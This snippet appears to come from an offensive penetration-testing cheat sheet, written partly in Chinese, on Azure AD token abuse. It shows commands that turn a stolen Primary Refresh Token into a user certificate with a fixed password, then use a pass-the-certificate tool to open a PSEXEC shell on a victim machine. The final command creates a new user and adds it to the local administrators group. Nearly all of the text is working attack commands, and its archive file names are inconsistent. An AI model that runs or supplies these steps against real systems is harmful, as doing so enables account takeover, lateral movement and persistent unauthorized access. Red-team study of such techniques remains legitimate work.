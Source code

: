 	Copy-Item -ToSession $jumpvm -Path C:\Tools\PrtToCertmaster.zip -Destination C:\Users\Username\Documents\username –Verbose
	Expand-Archive -Path C:\Users\Username\Documents\username\PrtToCert-master.zip -DestinationPath C:\Users\Username\Documents\username\PrtToCert

	需要 PRT、TenantID、Context 和 DerivedKey
	& 'C:\Program Files\Python39\python.exe' C:\Users\Username\Documents\username\PrtToCert\RequestCert.py --tenantId <TENANT-ID> --prt <PRT> --userName <Username>@<TENANT NAME>.onmicrosoft.com --hexCtx <HEX-CONTEXT> --hexDerivedKey <HEX-DERIVED-KEY>
	PFX 使用名称 <Username>@<TENANT NAME>.onmicrosoft.com.pfx 和密码 AzureADCert 保存
	Python tool that will authenticate to the remote machine, run PSEXEC and open a CMD on the victim machine

	https://github.com/morRubin/AzureADJoinedMachinePTC

	Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip REMOTEIP
	Main.py --usercert "admin.pfx" --certpass password --remoteip 10.10.10.10

	python Main.py --usercert C:\Users\Username\Documents\username\<USERNAME>@<TENANT NAME>.onmicrosoft.com.pfx --
	certpass AzureADCert --remoteip 10.10.10.10 --command "cmd.exe /c net user username Password@123 /add /Y && net localgroup administrators username /add"
